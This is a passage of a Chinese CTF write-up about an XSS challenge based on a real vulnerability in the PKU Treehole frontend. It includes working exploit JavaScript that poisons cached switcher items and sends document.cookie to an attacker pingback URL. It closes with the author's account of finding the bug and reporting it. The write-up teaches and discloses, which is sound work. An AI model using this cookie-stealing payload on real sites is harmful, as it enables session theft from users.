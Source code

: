 ```html
}
exp_items.switcher_2.fix = {
    hole: 'location.href="' + PINGBACK_URL + '"+String.fromCharCode(63)+encodeURIComponent(document.cookie);',
};

async function exp() {
    // set up cache
    frame.src=HOLE_URL;
    await sleep(1200);
    frame.src=0;
    await sleep(100);
    // fire
    let fire_url = HOLE_URL+'#'+encodeURIComponent('//setflag APPSWITCHER_ITEMS='+JSON.stringify(exp_items));
    frame.src=fire_url;
    await sleep(450); // less than 500ms so that it has no chance to fetch new switcher items
    frame.src=0;
    await sleep(100);
    // get token
    location.href=HOLE_URL;
}

exp();
</script>
```

这里注意 `sandbox="allow-scripts allow-same-origin"` 是为了避免树洞弹出 alert 坏了我们的好事（selenium 不支持 alert）。

部署到自己的服务器上之后给 XSS Bot 喂这个网址，在 access log 里找 `pingback.html` 即可看到 Flag：

![image-20211116134116300](assets/image-20211116134116300.png)

注意有一个坑是 Chrome 会默认阻断 `<iframe>` 中第三方网页的 Cookie，因此最后一步需要用 `location.href` 跳转而非 `frame.src`，否则偷不到 Cookie 中的 Flag。



**命题思路**

有选手可能会骂：这 XSS 设计得也太强行了吧？

但实际上，这是网页版P大树洞真实存在的漏洞，<del>而且还是我的锅</del>，没有任何人工设计的部分。实际上这题的源码基本和P大树洞完全一致，只是把登录功能和 API 网址改了改。

因为这个漏洞涉及到的 3 个功能（代码热修复、在搜索框更新隐藏参数、识别 URL 中的搜索词）都是看起来十分正常的业务逻辑，所以存在了大约一年都没发现。在今年夏天，宿舍热得睡不着觉，我在床上胡思乱想的时候突然发现这几个逻辑可能有问题，写了个 exp 发现可以打，于是上报了这个漏洞。有些其他树洞也采用了相同的前端，因此也有类似的问题，我尽量联系了对应站长告知修复方式。



## Flag即服务 (json)
